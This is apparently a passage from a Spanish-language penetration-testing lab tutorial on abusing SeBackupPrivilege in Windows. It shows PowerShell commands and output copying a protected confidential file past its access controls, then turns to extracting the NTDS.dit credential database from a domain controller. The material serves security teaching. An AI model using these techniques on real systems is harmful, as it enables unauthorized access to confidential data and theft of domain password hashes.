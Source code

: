 ### Copying a Protected File

Como podemos ver arriba, el privilegio se habilitó con éxito. Este privilegio ahora puede ser aprovechado para copiar cualquier archivo protegido.

```r
PS C:\htb> dir C:\Confidential\

    Directory: C:\Confidential

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/6/2021   1:01 PM             88 2021 Contract.txt


PS C:\htb> cat 'C:\Confidential\2021 Contract.txt'

cat : Access to the path 'C:\Confidential\2021 Contract.txt' is denied.
At line:1 char:1
+ cat 'C:\Confidential\2021 Contract.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Confidential\2021 Contract.txt:String) [Get-Content], Unauthor
   izedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

```r
PS C:\htb> Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt

Copied 88 bytes


PS C:\htb>  cat .\Contract.txt

Inlanefreight 2021 Contract

==============================

Board of Directors:

<...SNIP...>
```

Los comandos anteriores demuestran cómo se accedió a información sensible sin poseer los permisos requeridos.

### Attacking a Domain Controller - Copying NTDS.dit

Este grupo también permite iniciar sesión localmente en un controlador de dominio. La base de datos de Active Directory `NTDS.dit` es un objetivo muy atractivo, ya que contiene los hashes NTLM para todos los objetos de usuario y computadora en el dominio. Sin embargo, este archivo está bloqueado y tampoco es accesible para usuarios sin privilegios.
